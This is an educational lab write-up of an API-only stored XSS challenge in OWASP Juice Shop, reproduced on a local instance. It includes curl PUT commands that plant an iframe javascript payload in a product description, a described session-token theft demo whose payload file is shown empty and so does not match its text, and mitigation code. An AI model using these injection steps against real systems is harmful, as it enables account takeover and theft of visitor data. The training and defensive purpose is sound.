





# API-only XSS

:::warning Educational purpose only

This documentation describes a vulnerability in the OWASP Juice Shop, an intentionally vulnerable training application. It is provided for educational and defensive purposes and was reproduced on a local instance only.

:::

**Category:** Cross Site Scripting (XSS)
**OWASP mapping:** A03:2021 Injection / XSS
**Difficulty:** 3 stars
**Video:** https://www.loom.com/share/60b505abf6594e3cb0141c824086cc3d

## Table of Contents

- [Overview](#overview)
- [Why it is dangerous](#why-it-is-dangerous)
- [Reproduction](#reproduction)
- [Root cause](#root-cause)
- [Mitigation](#mitigation)
- [References](#references)

## Overview

The product REST API accepts updates to product fields and stores them without sanitising the input on the server. The web interface sanitises what a user types and offers no editor for the product description, so the payload cannot be introduced through the UI. It can only be planted by calling the API directly. The Juice Shop exposes two API areas, and only the generic one allows writing to a single product. Once stored, the malicious markup is served to every visitor who opens that product, which makes this a stored (persistent) Cross Site Scripting finding that also shows why client side sanitisation is not a security control.

## Why it is dangerous

Unlike a reflected payload that only affects the person who clicks a crafted link, a stored payload is persisted in the database and runs in the browser of every user who views the affected product. One request by the attacker compromises all future visitors, including administrators. In each victim's session the script can read and exfiltrate the session token, act on the victim's behalf, scrape personal data, or redirect to a phishing page. Because the injection path is the API and bypasses the frontend entirely, any defence that lives only in the client is useless. The wider impact is mass account takeover, theft of personal data at scale, and persistent defacement, all triggered by a single stored entry.

## Reproduction

**Preconditions:**

- Local instance running on `http://localhost:3000`
- A throwaway test account and its Bearer token (see Step 2)

### Step 1: Identify the two API areas

1. Open the browser developer tools with F12 and go to the **Network** tab.
2. Open a product and reload the page. Two API styles are visible:
   - `/rest/...` in lower case: hand written endpoints for specific features, such as `/rest/products/search` and `/rest/products/1/reviews`.
   - `/api/...` with a capitalised model name: the generic CRUD interface to the data models, such as `/api/Products` and `/api/Users`.

The distinction matters: the generic `/api/` area is what allows reading and writing a single product.



### Step 2: Obtain a Bearer token

1. Register and log in with a throwaway test account in the application.
2. Read the token from the developer tools: **Storage** tab, **Local Storage**, entry `token`. Keep it in a shell variable:

   ```bash
   TOKEN="<paste the token here>"
   ```

:::danger Never commit a token

The Bearer token is a live credential. Keep it out of the repository, out of commits, and cropped out of any screenshot.

:::


### Step 3: Confirm the rest area has no single product endpoint

Reading or writing a single product over `/rest/` fails, which is why this is API-only.

```bash
curl -i http://localhost:3000/rest/products/1
```

```bash
curl -i -X PUT http://localhost:3000/rest/products/1 \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"description":"test"}'
```

Both return `500 Internal Server Error` with `Unexpected path: /rest/products/1`. The rest area only serves its specific endpoints (search, reviews), not a generic single product route.



### Step 4: Read the product over the generic api

```bash
curl -i http://localhost:3000/api/Products/1
```

This returns `200 OK` with the product JSON, including the `description` field. This is the field to be abused.



### Step 5: Inject the payload and solve the challenge

The description cannot be edited through the UI, so send the payload directly to the generic api with a PUT.

```bash
curl -i -X PUT http://localhost:3000/api/Products/1 \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"description":"<iframe src=\"javascript:alert(`xss`)\">"}'
```

The response is `200 OK`. Open the product (search for `apple` and open Apple Juice). The challenge is marked solved and the success banner appears.

> **Note:** Modern browsers block `javascript:` URLs inside an iframe, so no alert box pops up. The challenge still solves, because the Juice Shop detects the stored payload on the server. To show that injected script really executes, use the impact demo below.



### Step 6: Demonstrate real impact (local only)

This shows why stored XSS matters beyond a popup: the stored script steals the viewer's session token and sends it to a listener. Everything stays on the local machine.

1. Start a listener in a second terminal:

   ```bash
   python3 -m http.server 8000
   ```

2. Write the payload to a file to avoid shell quoting issues:

   ```bash
   cat > /tmp/payload.json <<'EOF'
   {"description":""}
   EOF
   ```

3. Plant it through the api:

   ```bash
   curl -X PUT http://localhost:3000/api/Products/1 \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d @/tmp/payload.json
   ```

4. Open Apple Juice again so its description renders. The `onerror` handler fires and sends the token to the listener. In the listener terminal a request appears:

   ```text
   GET /?c=<the session token> HTTP/1.1
   ```

The script runs for every visitor who views the product. For a logged in user it steals the session token; for a guest with no token it would still run any other injected code.

:::danger Never commit a token

The captured token in the listener log is a live credential. Crop it out of the screenshot and never commit it.

:::



**Result:** The payload is stored server side and executes for anyone who views the product, and the impact demo shows a session token being exfiltrated.

## Root cause

Two weaknesses combine. First, the generic product api writes user supplied field values to the database without server side sanitisation, trusting the frontend to have cleaned the input. Second, the product description is later rendered as raw HTML in the product detail view, using the frontend's trusted HTML binding rather than text binding, so stored markup reaches the DOM and runs. The frontend both performs the only sanitisation and is the only place a normal user can edit, which is why calling the api directly bypasses the control entirely. Sanitisation and output encoding belong on the server and at the render sink, not in the editor the attacker can skip.

## Mitigation

Validate and sanitise untrusted input on the server when it is written, and encode output for its context when it is rendered. Never rely on the client to sanitise, because the api can always be called directly.

Vulnerable (api stores the value as sent, UI renders it as HTML):

```ts
// write: value stored verbatim
await ProductModel.update({ description: req.body.description }, { where: { id } })
// render: trusted as HTML
this.description = this.sanitizer.bypassSecurityTrustHtml(product.description)
```

Secure (sanitise on write, bind as text on render):

```ts
// write: sanitise server side with a vetted sanitiser
await ProductModel.update({ description: sanitizeHtml(req.body.description) }, { where: { id } })
// render: let the framework escape it
// template: <p>{{ description }}</p>
```

A good production example of doing this correctly is Shopware 6. Since version 6.5 it runs a server side HTML sanitiser (HTMLPurifier based) in its data write layer, so fields are cleaned regardless of whether the write comes from the admin UI or directly from the API, and plain text fields reject HTML entirely. That is exactly the server side enforcement the Juice Shop is missing here.

**Key takeaways:**

- Sanitise untrusted input on the server at write time and encode output at the render sink. Client side sanitisation is not a security boundary because the api can be called directly.
- Prefer text binding over HTML binding, and add a Content Security Policy as defence in depth.

## References

- OWASP Juice Shop project: https://owasp.org/www-project-juice-shop/
- OWASP Top 10 A03:2021 Injection: https://owasp.org/Top10/A03_2021-Injection/
- OWASP Cross Site Scripting Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- Shopware HTML Sanitizer: https://docs.shopware.com/en/en/shopware-6-en/html-sanitizer